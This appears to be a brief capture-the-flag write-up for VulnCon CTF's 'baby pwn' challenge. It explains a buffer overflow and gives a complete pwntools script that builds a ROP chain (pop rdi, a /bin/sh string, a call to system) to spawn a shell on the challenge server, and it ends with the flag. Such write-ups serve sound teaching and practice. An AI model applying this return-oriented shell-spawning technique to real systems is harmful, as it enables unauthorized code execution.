


## VulnCon CTF: baby pwn [pwn]


#### I only played for a little bit during the duration of the ctf since I still had to rush some of my pre-finals requirements :pepe_sad: and what's even sadder is that I hadn't solved the heap challs and the blind format string pwn. Well, I'll just read the writeups and practice them to learn more! Also, I placed 69th despite only solving pwn challs, which is pretty nice.


#### This challenge was just a warm up for the pwn category. We had a buffer overflow and a function that calls system. Directly jumping to this function didn't grant me a shell, so what I did was to search for a /bin/sh string in memory, pop it into the rdi register and directly call system. 

```python
from pwn import *

#p = process('./w4rmup')
#gdb.attach(p.pid, gdbscript = 'break *main + 153')
p = remote("35.232.11.215", 49153)
binary = ELF('./w4rmup', checksec = False)

overflowed = binary.symbols['overflowed']
exploit = cyclic(24)
exploit += p64(0x40126b) #: pop rdi; ret
exploit += p64(0x402008) #: /bin/sh string in memory
exploit += p64(overflowed + 11) #: direct call to system
p.sendline(exploit)
p.interactive()

#: vulncon{y0u_4re_all_s3t_for_pwn}
```

